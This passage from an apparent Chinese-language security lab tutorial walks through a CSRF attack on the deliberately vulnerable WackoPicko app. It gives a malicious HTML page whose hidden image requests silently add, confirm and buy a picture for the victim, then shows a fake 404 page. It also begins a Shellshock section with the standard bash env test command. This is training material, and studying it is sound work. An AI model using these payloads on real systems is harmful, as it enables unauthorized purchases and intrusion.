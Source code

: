 4. 在刚刚上传的图片下方添加如下评论，其中192.168.254.130是kali的ip地址。

```html
There is more pictures <a href="http://192.168.254.130/wackopurchase.html" target="_blank">this</a>
```

5. 注册受害者user_victim，浏览刚刚上传的图片，并点击评论中的链接，可以发现受害者购买了攻击者上传的图片并支付了15Tradebuxs。美中不足的是，购买成功后应该关闭购买页面，并显示404页面，实践中停留在了购买成功的页面。修改恶意网页代码，实现关闭购买页面功能。

```html
<html>
<head></head>
<body>
<img src="http://192.168.2.167/WackoPicko/cart/action.php?action=add&picid=19" border="0" style="display:none;"/>
<img src="http://192.168.2.167/WackoPicko/cart/review.php" border="0" style="display:none;"/>
<img src="http://192.168.2.167/WackoPicko/cart/confirm.php" border="0" sytle="display:none;"/>
<img src="http://192.168.2.167/WackoPicko/cart/action.php?action=purchase" border="0" style="display:none";/>
<h1>Error 404: Not found</h1>
</body>

```

![](./pictures/CSRF_WackoPicko_2.png)

### CSRF攻击的条件

1. 了解执行特殊操作所需的请求过程及参数；
2. 将请求过程自动化，并有方法诱使受害者访问恶意站点。



## 7.7 shellshock破壳漏洞利用

### shellshock漏洞

**复现**

在bash shell中执行

```bash
env x='() { :; }; echo vulnerable' bash -c "echo this is a test"
```
